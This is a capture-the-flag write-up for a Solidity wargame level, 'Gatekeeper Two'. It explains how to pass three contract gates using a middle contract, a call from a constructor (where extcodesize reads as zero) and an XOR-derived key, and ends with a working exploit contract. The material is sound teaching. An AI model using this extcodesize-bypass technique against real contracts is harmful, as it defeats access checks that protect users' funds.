

## Challenge
### Prompt
This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.
Things that might help:
- Remember what you've learned from getting past the first gatekeeper - the first gate is the same.
- The `assembly` keyword in the second gate allows a contract to access functionality that is not native to vanilla Solidity. See [Solidity Assembly](http://solidity.readthedocs.io/en/v0.4.23/assembly.html) for more information. The `extcodesize` call in this gate will get the size of a contract's code at a given address - you can learn more about how and when this is set in section 7 of the [yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf).
- The `^` character in the third gate is a bitwise operation (XOR), and is used here to apply another common bitwise operation (see [Solidity cheatsheet](http://solidity.readthedocs.io/en/v0.4.23/miscellaneous.html#cheatsheet)). The Coin Flip level is also a good place to start when approaching this challenge.
### Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```
## Background

---

`msg.sender` is the address that directly called the current function, and `tx.origin` is the EOA address that originally initiated the transaction. Suppose an EOA calls contract A, and contract A in turn calls contract B. From B's perspective, `msg.sender` is A and `tx.origin` is the EOA that first sent the transaction.
Inserting a contract in the middle lets us satisfy the `msg.sender != tx.origin` condition. It's the same structure as the first gate of challenge 13, Gatekeeper One.

---

`extcodesize(addr)` is an EVM instruction that returns the size of the runtime code stored at a given address. Normally, when run against an already-deployed contract address, the code size is greater than 0.
However, during a contract's deployment, the creation code runs first, and the runtime code it produces is then stored at the deployment address. The `constructor` runs during this creation-code execution. In other words, while the `constructor` is executing, the current contract's runtime code is not yet stored at the address.
So if we call another contract from inside the constructor, even if the callee checks `extcodesize(caller())`, the attacking contract's code size comes out as 0. With this condition we can pass `gateTwo`.

---

XOR is a bitwise operation that returns 1 only when the two bits differ. It has the property that applying the same value twice returns to the original value.
$$
A \oplus B = C \quad \Rightarrow \quad B = A \oplus C
$$
In the challenge we need `A ^ _gateKey == type(uint64).max`, so we just build `_gateKey` as `A ^ type(uint64).max`.
## Challenge code analysis

---

The first gate is below.
```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```
If an EOA calls `enter` directly, `msg.sender` and `tx.origin` become the same address, so it reverts. If we deploy an attacking contract and have that contract call `enter`, then `msg.sender` becomes the attacking contract's address and `tx.origin` becomes my EOA.

---

The second gate looks at `extcodesize`.
```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```
Here `caller()` is the address that called the current `GatekeeperTwo.enter`. If the attacking contract calls `enter` after it has already been deployed, `extcodesize(caller())` returns the attacking contract's runtime code size, which is not 0.
But calling `enter` from inside the attacking contract's `constructor` changes things. During constructor execution, the attacking contract's runtime code is not yet stored at the deployment address, so `extcodesize(caller()) == 0`. Therefore, the `enter` call must be placed inside the constructor.

---

The third gate is an XOR condition.
```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```
First we hash `msg.sender`, then make a value from the first 8 bytes of that hash converted to `uint64`. Let's call this value `A`.
```solidity
uint64 A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender))));
```
The condition is as follows.
$$
A \oplus key = 2^{64}-1
$$
So `key` can be computed as follows.
$$
key = A \oplus (2^{64}-1)
$$
Since we will call from inside the attacking contract's constructor, from `GatekeeperTwo`'s perspective `msg.sender` is the attacking contract's address. So when computing the key, we must also use `address(this)`.
## Solution
We pass `gateOne` by calling through a contract, and pass `gateTwo` by calling from inside the attacking contract's `constructor`. Finally, for `gateThree`, we compute the hash based on `address(this)` and XOR it with `type(uint64).max` to build `_gateKey`.
When `enter` succeeds, `entrant = tx.origin` runs. Even when called from inside the constructor, the address that first sent the transaction is my EOA, so the final `entrant` becomes my address.
### Exploit
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack {
    bytes8 gatekey;
    address public target;

    constructor(address _addr) {
        target = _addr;
        gatekey = bytes8(
            uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max
        );
        (bool ok, ) = target.call(abi.encodeWithSignature("enter(bytes8)", gatekey));
        require(ok, "enter failed");
    }
}
```

